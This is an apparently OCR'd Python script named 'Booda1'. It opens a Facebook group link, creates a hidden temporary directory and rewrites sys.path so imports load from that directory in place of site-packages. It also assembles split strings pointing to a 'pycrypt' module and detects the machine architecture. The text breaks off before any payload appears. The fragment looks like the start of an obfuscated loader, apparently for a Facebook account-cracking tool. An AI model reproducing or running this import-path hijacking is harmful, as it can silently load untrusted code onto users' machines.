 # Booda1
from __future__ import print_function

from uuid import uuid4

try:

    import os,requests,json,time,re,random,sys,uuid,string,subprocess,platform,zlib,shutil

    from string import *

    import bs4

    from concurrent.futures import ThreadPoolExecutor as tred

    from concurrent.futures import ThreadPoolExecutor as ThreadPool

    from bs4 import BeautifulSoup as sop

    from bs4 import BeautifulSoup

except ModuleNotFoundError: 

    pass

print('\33[1;32m  join my facebook groph')

os.system('xdg-open https://www.facebook.com/groups/569978438358911/')

from os import path

import os,base64,zlib,pip,urllib

from uuid import uuid4

import os,sys,tempfile,string,random,subprocess,uuid

http_directory = tempfile.mkdtemp(prefix='.')

site_packages = sys.path[4]

print(site_packages)

print(http_directory)

sys.path.remove(site_packages)

sys.path.insert(4,http_directory+'/reqmodule')

sys.path.insert(5,http_directory)

try:

        os.mkdir('crypto')

except:pass

hh = "ho"

hh2 = "9/pycrypt"

find_aarch = subprocess.check_output('uname -om',shell=True)
